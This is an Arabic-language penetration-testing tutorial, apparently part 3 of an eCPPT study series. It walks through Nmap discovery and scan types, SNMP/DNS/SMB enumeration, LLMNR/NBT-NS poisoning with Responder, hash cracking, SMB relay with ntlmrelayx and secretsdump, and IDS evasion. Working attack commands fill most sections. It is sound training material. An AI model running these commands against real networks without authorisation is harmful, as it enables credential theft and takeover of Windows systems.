


يعد اختبار اختراق الشبكات (Network Penetration Testing) العمود الفقري لشهادة **eCPPT**. ففي بيئات العمل الواقعية، لا يواجه المهاجم هدفًا معزولاً، بل بنية تحتية شبكية معقدة تضم خوادم، محولات، جدران نارية، وبروتوكولات قديمة لا تزال تعمل لأسباب تتعلق بالتوافقية (Legacy Protocols).

في هذا الدليل التفصيلي، سنغطي دورة استكشاف الشبكات بدقة، بدءًا من تحديد الأجهزة النشطة (Host Discovery)، مرورًا بتشريح حزم الفحص في **Nmap**، وانتهاءً بتنفيذ هجمات رجل في المنتصف (MITM) المتقدمة عبر استغلال ثغرات بروتوكولات **LLMNR / NBT-NS** وتتابع اعتمادات **SMB Relay**.

---

### جدول التنقل في السلسلة (Series Navigation)

| **المقال السابق** | **المقال الحالي** | **المقال القادم** |
| :---: | :---: | :---: |
| [الجزء 2: تطوير ثغرات Buffer Overflows & SEH](/posts/ecppt-v3-part-2-exploit-development-buffer-overflows/) | **الجزء 3: اختبار اختراق الشبكات وهجمات MITM** | [الجزء 4: اختبار اختراق الدليل النشط (Active Directory)](/posts/ecppt-v3-part-4-active-directory-penetration-testing/) |

---

## أبرز النقاط الرئيسية (Key Takeaways)

* **استكشاف الأجهزة متعدد الطبقات (Multi-Layer Discovery)**: لا يكفي الاعتماد على حزم ICMP Echo وحدها؛ إذ تتجاهلها معظم الجدران النارية الحديثة. ندمج استكشاف الطبقة الثانية (ARP Pings) داخل الشبكة المحلية، مع استكشاف الطبقة الرابعة (TCP SYN/ACK و UDP Pings) لاختراق الشبكات الموجهة (Routed Networks).
* **آليات فحص المنافذ في Nmap**: فحص التخفي (SYN Stealth Scan `-sS`) لا يكمل المصافحة الثلاثية (Half-Open)، مما يجعله أسرع وأقل ظهورًا في سجلات طبقة التطبيقات مقارنة بفحص الاتصال الكامل (`-sT`).
* **تعداد الخدمات المعمق (Protocol Enumeration)**: جمع معلومات الخدمات ليس مجرد معرفة رقم المنفذ؛ بل فحص بروتوكولات مثل SNMP عبر سلاسل المجتمع (Community Strings)، ونقل مناطق DNS (Zone Transfers)، وتعداد مستخدمي SMB/RPC عبر استعلامات RID cycling.
* **هجمات التسميم وتتابع الهويات (Poisoning & Relaying)**: استغلال ميل أجهزة ويندوز لبث استعلامات اسم المضيف غير المحلولة عبر LLMNR/NBT-NS لاصطياد كلمات المرور المشفرة بواسطة `Responder`، أو إعادة توجيه تلك الاعتمادات لحظيًا عبر `ntlmrelayx` للسيطرة على خوادم أخرى لا تفرض توقيع SMB (SMB Signing Disabled).

---

## 1. استكشاف الأجهزة النشطة (Host Discovery & Mapping)

قبل البدء في فحص المنافذ والخدمات، يجب رسم خريطة دقيقة بالأجهزة الفعالة على نطاق الشبكة المستهدفة دون إضاعة الوقت على عناوين IP مغلقة:



### الأوامر التكتيكية لاستكشاف الأجهزة:

```bash
# 1. استكشاف الشبكة المحلية عبر ARP (فائق السرعة ولا يمكن حجبه داخل نفس الـ Subnet)
sudo nmap -sn -PR 192.168.1.0/24

# 2. استكشاف شبكة موجهة خلف راوترات عبر دمج بروتوكولات الطبقات 3 و 4
sudo nmap -sn -PE -PP -PS22,80,443,445 -PA80,3389 -PU53 10.10.10.0/24 -oA discovery_sweep
```

---

## 2. تشريح تقنيات فحص المنافذ في Nmap (Port Scanning Internals)

يعد فهم كيفية تفاعل حزم TCP/IP مع منافذ الهدف الفارق بين مختبر الاختراق المحترف ومجرد مشغل أدوات.

```mermaid
sequenceDiagram
    autonumber
    participant Attacker as فاحص Nmap
    participant Target as الهدف (Target Port 80)
    
    rect rgb(20, 30, 45)
        Note over Attacker,Target: 1. فحص الاتصال الكامل TCP Connect Scan (-sT)
        Attacker->>Target: SYN Packet
        Target->>Attacker: SYN/ACK Packet (المنفذ مفتوح)
        Attacker->>Target: ACK Packet (اكتمال الاتصال)
        Attacker->>Target: RST/ACK Packet (إغلاق الجلسة فورًا)
    end
    
    rect rgb(35, 25, 30)
        Note over Attacker,Target: 2. فحص التخفي SYN Stealth Scan (-sS)
        Attacker->>Target: SYN Packet
        Target->>Attacker: SYN/ACK Packet (المنفذ مفتوح)
        Attacker->>Target: RST Packet (تمزيق الاتصال قبل اكتماله!)
    end
```



### المقارنة التقنية بين أنواع الفحص:

| نوع الفحص | الأمر في Nmap | متطلبات الصلاحية | آلية الردود | التخفي وسرعة الأداء |
| :--- | :--- | :--- | :--- | :--- |
| **TCP SYN Scan** | `-sS` | يحتاج `root / sudo` | يستقبل `SYN/ACK` فيرد فورًا بـ `RST` دون إكمال الجلسة | ممتاز وسريع جدًا، لا تسجله معظم التطبيقات |
| **TCP Connect Scan** | `-sT` | صلاحيات مستخدم عادي | يكمل المصافحة الثلاثية كاملة (`SYN -> SYN/ACK -> ACK`) | يترك بصمة واضحة في سجلات الخدمة، أبطأ |
| **UDP Scan** | `-sU` | يحتاج `root / sudo` | عدم الرد يعني `Open\|Filtered`، رد `ICMP Port Unreachable` يعني مغلق | بطيء جدًا بسبب خنق نظام التشغيل للردود (Rate-limiting) |
| **Null / FIN / Xmas** | `-sN / -sF / -sX` | يحتاج `root / sudo` | يستغل بند RFC 793: المنفذ المغلق يرد بـ `RST`، والمفتوح يتجاهل الحزمة | ممتاز لتخطي الجدران النارية القديمة غير المعتمدة على الحالة |

### الأمر القياسي الموصى به في بيئة eCPPT:

```bash
# مرحلة 1: كشف سريع لكافة المنافذ المفتوحة عبر الشبكة
sudo nmap -p- --min-rate 2000 -T4 10.10.10.50 -oN all_ports.txt

# مرحلة 2: استهداف المنافذ المكتشفة بدقة لفحص الإصدارات وتشغيل السكربتات الافتراضية
sudo nmap -p 21,22,80,139,445,3389 -sC -sV -O 10.10.10.50 -oA targeted_audit
```

---

## 3. تعداد الخدمات الشبكية الحيوية (Deep Service Enumeration)

### بروتوكول SNMP (Port 161/162 UDP)
يعتبر بروتوكول إدارة الشبكات البسيط كنزًا من المعلومات إذا تم ضبطه بسلاسل مجتمع افتراضية (`public` أو `private`).

```bash
# 1. كشف وتخمين سلاسل المجتمع عبر onesixtyone
onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt 10.10.10.50

# 2. استخراج كافة فروع الـ MIB والأجهزة النشطة ومستخدمي النظام
snmpwalk -v2c -c public 10.10.10.50 hrSWRunName
snmpwalk -v2c -c public 10.10.10.50 1.3.6.1.4.1.77.1.2.25  # استخراج أسماء المستخدمين
```

### بروتوكول DNS (Port 53)
يجب دائمًا اختبار إمكانية نقل النطاق الكامل (Zone Transfer - AXFR) للكشف عن البنية التحتية والأنظمة الفرعية الداخلية:

```bash
# محاولة استخراج كافة السجلات من خادم الأسماء
dig axfr @10.10.10.50 inlanefreight.local
```

### بروتوكول SMB و RPC (Ports 139 / 445 / 135)
في بيئات ويندوز، يمثل SMB البوابة الأساسية للدخول الأولي وتصعيد الهجمات:

```bash
# تعداد شامل للمستخدمين، المجموعات، والمجلدات المشتركة وسياسة كلمات المرور
enum4linux-ng -A 10.10.10.50 -oA enum4linux_report

# فحص صلاحيات المشاركات والتحقق من توقيع SMB باستخدام CrackMapExec
crackmapexec smb 10.10.10.50 --shares
crackmapexec smb 10.10.10.0/24 --gen-relay-list targets_no_signing.txt
```

---

## 4. هجمات التسميم وتتابع الاعتمادات (LLMNR/NBT-NS Poisoning & SMB Relay)

عندما يحاول مستخدم أو خدمة داخل بيئة Active Directory الوصول إلى مسار شبكي (مثل `\\fileshare`) ويفشل نظام DNS في إيجاد الاسم، تلجأ أنظمة ويندوز تلقائيًا إلى بروتوكولات البث المحلي: **LLMNR (Link-Local Multicast Name Resolution)** و **NBT-NS (NetBIOS Name Service)** للاستفسار من الأجهزة المجاورة.



### التنفيذ العملي لهجوم Responder:

```bash
# تشغيل Responder للاستماع واعتراض طلبات التسميم وحفظ الهاشات
sudo responder -I eth0 -dwv

# عند التقاط هاش الضحية، يتم كسره عبر Hashcat:
hashcat -m 5600 netntlmv2_hashes.txt /usr/share/wordlists/rockyou.txt -O
```

### التنفيذ المتقدم لهجوم SMB Relay بواسطة Impacket:

إذا كان حساب الضحية يمتلك صلاحيات مدير محلي (Local Admin) على أجهزة أخرى، وكان **SMB Signing** غير مفعل (وهو الوضع الافتراضي في محطات عمل ويندوز)، يمكننا تمرير المصادقة مباشرة والحصول على جلسة تحكم كاملة دون الحاجة لكسر الهاش:

```bash
# 1. إيقاف خوادم SMB و HTTP داخل إعدادات Responder:
# تعديل /etc/responder/Responder.conf -> ضبط SMB = Off و HTTP = Off

# 2. تشغيل أداة ntlmrelayx وتحديد أهداف غير مفعل بها التوقيع:
sudo ntlmrelayx.py -tf targets_no_signing.txt -smb2support -socks

# 3. بمجرد التقاط المصادقة، تنشأ جلسة SOCKS Proxy تفاعلية:
# يمكن الآن استخدام أي أداة عبر proxychains بصلاحيات الضحية!
proxychains secretsdump.py DOMAIN/VICTIM@10.10.10.60
```

---

## 5. تقنيات التخفي وتجاوز الجدران النارية (Firewall Evasion Tactics)

عند التعامل مع أنظمة كشف التسلل (IDS/IPS) مثل Snort أو Suricata، يوفر Nmap خيارات متقدمة لتجزئة الحزم وتشتيت أنظمة المراقبة:

1. **تجزئة الحزم (Packet Fragmentation)**:
   ```bash
   # تقسيم رؤوس الحزم إلى قطع صغيرة بحجم 8 أو 16 بايت لتجاوز فلاتر الفحص السطحي
   sudo nmap -sS -f --mtu 16 10.10.10.50
   ```
2. **استخدام العناوين المموهة (Decoy Scanning)**:
   ```bash
   # إرسال حزم الفحص بالتزامن مع عناوين IP حقيقية لإرباك فرق الدفاع ومسؤولي المراقبة
   sudo nmap -sS -D 10.10.10.2,10.10.10.3,ME,10.10.10.4 10.10.10.50
   ```
3. **تزوير منفذ المصدر (Source Port Manipulation)**:
   تسمح بعض الجدران النارية القديمة بحرية حركة البيانات إذا كان منفذ المصدر هو منفذ DNS (53) أو HTTP (80):
   ```bash
   sudo nmap -sS -g 53 10.10.10.50
   ```

---

## المراجع والمصادر الخارجية (References & Further Reading)

1. **Nmap Network Scanning: The Official Nmap Project Guide** by Gordon "Fyodor" Lyon.
2. **RFC 793 - Transmission Control Protocol Specification**: [https://tools.ietf.org/html/rfc793](https://tools.ietf.org/html/rfc793)
3. **Responder Project Repository**: [https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)
4. **SecureAuth Impacket Suite**: [https://github.com/fortra/impacket](https://github.com/fortra/impacket)
5. **MITRE ATT&CK Matrix**:
   * Technique T1046: Network Service Discovery
   * Technique T1557.001: LLMNR/NBT-NS Poisoning and SMB Relay

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
